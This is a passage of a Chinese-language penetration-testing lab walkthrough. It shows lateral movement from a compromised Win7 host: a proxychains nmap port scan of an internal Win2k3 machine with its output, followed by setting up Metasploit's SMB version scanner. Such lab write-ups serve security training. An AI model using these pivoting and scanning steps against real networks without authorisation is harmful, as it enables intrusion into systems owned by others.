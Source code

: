 

回到列表视图，扫端口

![image-20220815152357885](./1.assets/image-20220815152357885.png)



~~又出Bug了，CS识别不到目标机所在的内网ip段~~

点开之后要等一段时间才能扫到

![image-20220815155618348](./1.assets/image-20220815155618348.png)

![image-20220815155810801](./1.assets/image-20220815155810801.png)



## 横向移动

扫一下跟目前被攻击的机器(Win7)的内网里的另一台机器(Win2k3)开了哪些端口

```bash
msf6 auxiliary(server/socks_proxy) > proxychains4 nmap -p 1-1000 -Pn -sT 192.168.52.141
[*] exec: proxychains4 nmap -p 1-1000 -Pn -sT 192.168.52.141

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 04:18 EDT
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:111 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:143 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:139  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:53 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:256 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:199 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:21  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:995 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:25 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:993 <--socket error or timeout!
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.52.141:22 <--socket error or timeout!
......
```

发现445端口SMB，看下版本

```bash
msf6 auxiliary(server/socks_proxy) > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > options 

Module options (auxiliary/scanner/smb/smb_version):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.52.141
rhosts => 192.168.52.141
```